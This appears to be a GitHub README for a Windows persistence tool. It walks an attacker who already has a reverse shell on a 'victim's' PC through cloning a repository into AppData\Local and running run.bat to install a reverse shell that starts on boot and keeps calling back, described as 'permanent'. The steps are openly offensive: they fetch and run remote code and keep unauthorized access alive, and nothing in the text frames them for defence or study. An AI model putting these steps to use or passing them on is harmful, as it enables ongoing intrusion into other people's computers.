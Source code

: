 Once you reverse shell into victims computer, CD into the appdatta, local file and do git clone The link to this gitfile and run Run.bat

you may need to change the Ip and port in (ncat.bat)

what this does is creates an easy reverse shell that is always requesting a connection and is also enabled on startup 


steps:
open powershell

Reverse Shell into victims PC

CD into AppData

CD into local

type in git clone https://github.com/1DollarCoin/yess.git

CD into yess

type start run.bat

and you should now have a permanent reverse shell
